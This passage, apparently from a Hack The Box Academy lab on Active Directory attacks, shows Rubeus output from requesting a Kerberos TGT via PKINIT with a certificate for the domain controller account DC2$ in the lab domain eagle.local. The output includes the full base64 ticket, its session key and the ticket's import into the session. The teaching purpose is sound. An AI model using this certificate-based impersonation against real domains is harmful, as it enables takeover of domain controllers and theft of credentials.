 ```powershell-session

[*] Using PKINIT with etype rc4_hmac and subject: CN=DC2.eagle.local
[*] Building AS-REQ (w/ PKINIT preauth) for: 'eagle.local\DC2$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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
      BmtyYnRndBsLZWFnbGUubG9jYWw=
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/eagle.local
  ServiceRealm             :  EAGLE.LOCAL
  UserName                 :  DC2$
  UserRealm                :  EAGLE.LOCAL
  StartTime                :  19/12/2022 23.43.15
  EndTime                  :  20/12/2022 09.43.15
  RenewTill                :  26/12/2022 23.43.15
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  SICrZ4HjAjHqvZh03xo99w==
  ASREP (key)              :  BFC00B974546271BF0C6ACAC32447EB6
```

![Rubeus.exe asktgt command for user DC2$ with certificate.](https://academy.hackthebox.com/storage/modules/176/A14/RubeusCert1.png)

![TGT request successful for DC2 using certificate; ticket imported.](https://academy.hackthebox.com/storage/modules/176/A14/RubeusCert2.png)
